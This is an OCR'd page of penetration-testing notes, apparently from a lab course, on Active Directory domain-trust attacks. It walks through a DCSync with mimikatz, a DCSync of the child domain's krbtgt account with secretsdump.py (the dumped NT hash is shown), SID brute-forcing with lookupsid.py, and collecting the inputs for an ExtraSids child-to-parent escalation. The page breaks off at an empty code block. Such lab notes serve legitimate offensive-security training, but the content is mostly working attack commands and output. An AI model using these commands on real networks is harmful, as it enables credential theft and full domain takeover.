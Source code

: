 ```
```
Test this access by performing a DCSync Attack
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```
When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller.
```
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```
# Attacking Domain Trusts - Child -> Parent Trusts - ExtraSids Attack from Linux
## The KRBTGT hash for the child domain
### Performing DCSync with secretsdump.py
```
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
```
```
-nthash 9d765b482771505cbe97411065964d5f
```
## The SID for the child domain
Performing SID Brute Forcing using lookupsid.py
Whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
```
We can filter out the noise by piping the command output to grep and looking for just the domain SID.
```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```
```
-domain-sid S-1-5-21-2806153819-209893948-922872689
```
```
Get-ADDomain htb.local
```
**Grab Domain SID**
## The name of a target user in the child domain (does not need to exist!)
```
hacker
```
## The FQDN of the child domain
```
LOGISTICS.INLANEFREIGHT.LOCAL
```
## The SID of the Enterprise Admins group of the root domain
### Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```
```